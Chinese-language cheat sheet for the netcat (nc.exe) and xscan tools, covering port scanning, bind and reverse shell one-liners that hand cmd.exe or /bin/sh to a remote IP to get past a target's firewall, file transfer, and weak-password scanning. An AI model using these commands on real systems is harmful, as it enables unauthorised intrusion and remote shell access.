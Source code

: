 #### 瑞士军刀：`nc.exe`
##### 参数说明：

-  `-h` 查看帮助信息
- `-d` 后台模式
- `-e prog` 程序重定向，一但连接就执行[危险]
- `-i secs` 延时的间隔
- `-l` 监听模式，用于入站连接
- `-L` 监听模式，连接天闭后仍然继续监听，直到CTR+C
- `-n IP地址`，不能用域名
- `-o film`记录16进制的传输
- `-p [空格] 端口` 本地端口号
- `-r` 随机本地及远程端口
- `-t` 使用Telnet交互方式
- `-u` UDP模式
- `-v` 详细输出，用-vv将更详细
- `-w` 数字 timeout延时间隔
- `-z` 将输入，输出关掉（用于扫锚时）
- 
##### 基本用法：

- `nc -nvv 192.168.0.1 80 ` 连接到192.168.0.1主机的80端口
- `nc -l -p 80` 开启本机的TCP 80端口并监听
- `nc -nvv -w2 -z 192.168.0.1 80-1024` 扫锚`192.168.0.1`的`80-1024`端口
- `nc -l -p 5354 -t -e c:winntsystem32cmd.exe` 绑定`remote`主机的`cmdshell`在`remote`的`TCP 5354`端口
- `nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354` 梆定`remote`主机的`cmdshell`并反向连接`192.168.0.2`的`5354`端口
##### 高级用法：

- `nc -L -p 80 `作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止
- `nc -L -p 80 > c:log.txt` 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt
- `nc -L -p 80 < c:honeyport.txt` 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用
- `type.exe c:honeyport | nc -L -p 80 `作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用
本机上用：`nc -l -p 本机端口`
在对方主机上用：`nc -e cmd.exe 本机IP -p 本机端口 `
- `nc -e /bin/sh 本机IP -p 本机端口 `linux,unix 反向连接突破对方主机的防火墙
本机上用：`nc -d -l -p 本机端口 < 要传送的文件路径及名称`
在对方主机上用：`nc -vv 本机IP 本机端口 > 存放文件的路径及名称 `传送文件到对方主机
>备 注：
- `| `管道命令
- `< `或` >` 重定向命令。`<`，例如：`tlntadmn < test.txt` 指把test.txt的内容赋值给tlntadmn命令
- `@` 表示执行`@`后面的命令，但不会显示出来（后台执行）；例：`@dir c:winnt >> d:log.txt` 意思是：后台执行`dir`，并把结果存在`d:log.txt`中
- `>`与`>>`的区别 `>`指：覆盖；`>>`指：保存到(添加到）。如：`@dir c:winnt >> d:log.txt`和`@dir c:winnt > d:log.txt`二个命令分别执行二次比较看：用`>>`的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。

###  扫描工具：xscan.exe

#### 基本格式
---
- `xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] `扫锚"起始IP到终止IP"段的所有主机信息
- `xscan -file <主机列表文件名> <检测项目> [其他选项] `扫锚"主机IP列表文件名"中的所有主机信息
##### 检测项目
- `-active` 检测主机是否存活
- `-os` 检测远程操作系统类型（通过NETBIOS和SNMP协议）
- `-port` 检测常用服务的端口状态
- `-ftp` 检测FTP弱口令
- `-pub` 检测FTP服务匿名用户写权限
- `-pop3` 检测POP3-Server弱口令
- `-smtp` 检测SMTP-Server漏洞
- `-sql` 检测SQL-Server弱口令
- - `-smb` 检测NT-Server弱口令